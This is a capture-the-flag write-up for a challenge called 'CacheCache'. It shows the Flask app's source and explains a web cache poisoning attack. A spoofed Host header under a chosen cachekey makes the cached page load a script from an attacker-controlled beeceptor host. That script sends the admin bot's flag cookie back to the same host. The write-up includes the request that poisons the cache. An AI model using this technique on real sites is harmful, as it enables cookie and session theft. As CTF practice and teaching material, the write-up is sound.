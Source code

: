 # CacheCache

![chall_head](chall_head.png)

## overciew

Source code of the app :

```py
from flask import Flask, request
from flask_caching import Cache
import random
import string
from selenium import webdriver
from selenium.webdriver.chrome.options import Options
from selenium.webdriver.chrome.service import Service
from os import environ
from time import sleep

app = Flask(__name__)
config = {
    "DEBUG": False,
    "CACHE_TYPE": "SimpleCache",
    "CACHE_DEFAULT_TIMEOUT": 300
}
app.config.from_mapping(config)
cache = Cache(app)

def make_key():
    cachekey = request.args.get("cachekey")
    return cachekey if cachekey else ''.join(random.choice(string.ascii_uppercase + string.digits) for _ in range(8))

@app.route('/script/main.js', methods=["GET"])
def script():
    return "setTimeout(function(){document.getElementById('quote').innerText = 'Welcome to my personal website !';},1500);"

@app.route('/visit', methods=["GET","POST"])
def visit():
    if request.method == "GET":
        return f'''
            <!DOCTYPE HTML>
                <html>
                    <head>
                        <title>Show me your quote!</title>
                    </head>
                    <body>
                        <form method="POST" action="/visit">
                            <input type="text" placeholder="http://superquote.fr/myquote" name="url" id="url"/>
                            <br/>
                            <button action="submit">Send your quote!</button>
                        </form>
                    </body>
                </html>
        '''
    elif request.method == "POST":
        if(request.form.get("url") and request.form.get("url").startswith("http://") or request.form.get("url").startswith("https://")):
            chrome_options = Options()
            chrome_options.add_argument("--headless")
            chrome_options.add_argument("--incognito")
            chrome_options.add_argument("--no-sandbox")
            chrome_options.add_argument("--disable-gpu")
            chrome_options.add_argument("--disable-jit")
            chrome_options.add_argument("--disable-wasm")
            chrome_options.add_argument("--disable-dev-shm-usage")
            chrome_options.add_argument("--ignore-certificate-errors")
            chrome_options.binary_location = "/usr/bin/chromium-browser"
            service = Service("/usr/bin/chromedriver")
            driver = webdriver.Chrome(service=service, options=chrome_options)
            driver.set_page_load_timeout(3)
            driver.get("http://127.0.0.1:5000")
            driver.add_cookie({
                "name": "flag",
                "value": environ.get("FLAG"),
                "path": "/",
                "httpOnly": False,
                "samesite": "Strict",
                "domain": "127.0.0.1"
            })
            try:
                driver.get(request.form.get("url"))
            except: 
                pass
            sleep(3)
            driver.close()
            return "That's a good quote !"
        else:
            return "'url' parameter not given or is incorrect"
    else:
        return 'Method not allowed.'

@app.route('/')
@cache.cached(timeout=60, make_cache_key=make_key)
def index():
    return f'''
    <!DOCTYPE HTML>
    <head>
        <script src="http://{request.headers.get('Host')}/script/main.js"></script>
    </head>
    <body>
        The today random quote is : <p id="quote"></p>
    </body>
    '''

app.run(host='0.0.0.0', port=5000)
```


By looking at the source code, we can see that the creator implemented a cache system on `/` route. Cache is used in flask to render the page (and the templates inside) only once per key each 300s. If we look at the cache andling function, we can see that it uses a get parameter called `cachekey`. This means that the answer returned by the server will be identical for all users using the same cachekey.


Looking at the other functions, we can see that there is also a route called `/visit` that calls a bot. this bot sets the flag as a cookie with the atribut sameSite for `127.0.0.1` enabled and gets a page that we want.


We can exploit this script by requesting a cachekey using the header host to point to a controlled server. Thgen, we need to create a file in http://our-server/script/main.js. This file need to contain a script that steals the cookies and send them to the same server.

## exploit

To exploit this, I used a beeceptor instance as my web server. I simply created a rule that matches `/script/main.js`. This script simply requests this same enpoint with the cookie as a header.

![screen](screen.png)



I then used a python script to send a crafted request to the targeted web server.

```py
import requests
requests.get("http://13.39.75.59:11319?cachekey=hehaha", headers={"Host":"dfhbsjdfh.free.beeceptor.com"})
```

With this setup I only had to redirect the bot to the website main page, with the same cachekey as the one I previously used.

```
http://127.0.0.1:5000?cachekey=hehaha
```

Looking at the endpoint logs, we can see the flag.

![screen2](screen2.png)


Thanks for the chall.